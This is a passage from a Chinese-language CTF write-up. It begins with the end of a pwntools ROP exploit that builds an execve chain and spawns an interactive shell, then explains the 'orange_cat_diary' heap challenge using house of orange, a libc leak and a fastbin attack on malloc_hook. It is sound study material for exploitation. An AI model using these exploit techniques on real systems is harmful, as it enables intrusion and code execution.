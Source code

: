 ```python
payload+= p64(rax) + p64(0x3b) + p64(rdi) + p64(addr) + p64(0)*5 + p64(rsi) + p64(0) + p64(rdx) + p64(0) + p64(syscall)

p.sendlineafter(b'Input your magic message :',payload)

p.recvuntil(b'Your magic message :')
p.sendline(b'/bin/sh\x00')

p.interactive()

```

## orange_cat_diary
### 分析
house of orange + fastbin attack

一道堆菜单题，但是限制了show和delete的次数
每次add操作后申请的堆内存无编号，都是针对ptr的操作
edit函数内可以多写8个字节，可以改写下一个chunk的size

### 思路
1. 通过edit溢出修改top_chunk的size，然后通过申请较大的chunk调用sysmalloc函数中的_int_free将原top chunk置入unsorted bin(这是house of orange的攻击手法)
2. 通过show泄露unsorted bin的bk指针，这个指针会指向main_arena结构体内部的一个成员，通过main_arena与libc的偏移泄露libc基址
3. 通过伪造chunk进行fastbin attack将堆分配到malloc_hook位置，写上one_gadget
4. 再次调用malloc即可获取shell

#### 修改top chunk的size
关于修改top chunk的size，需要修改后的top chunk的满足以下几个条件
1. 伪造的 size 必须要对齐到内存页
2. size 要大于 MINSIZE(0x10)
3. size 要小于之后申请的 chunk size + MINSIZE(0x10)
4. size 的 prev inuse 位必须为 1

对齐到内存页，即size(no_flag_bit)大小需要为2* SIZE_SZ的整数倍
所以我们修改top chunk的size为0xf91(0b1111 1001 0001)
0xf91最后一位为PRE_INUSE，去掉flag_bit最后4位为零（即满足对齐到内存页），并且大于0x10且小于我们要申请的0x1000

所以可以修改为0xf91

#### 计算main_arena与libc基址的偏移
关于如何计算main_arena与libc的偏移，main_arena是一个全局变量，这里有两种思路可以得知main_arena在libc中的偏移
1. 利用malloc_trim函数，这个函数会访问main_arena，可以通过这个函数在ida中找到偏移
```c
int
__malloc_trim (size_t s)
{
  int result = 0;

  if (__malloc_initialized < 0)
    ptmalloc_init ();

  mstate ar_ptr = &main_arena;//<=here!
  do
    {
      __libc_lock_lock (ar_ptr->mutex);
      result |= mtrim (ar_ptr, s);
      __libc_lock_unlock (ar_ptr->mutex);

      ar_ptr = ar_ptr->next;
    }
  while (ar_ptr != &main_arena);

```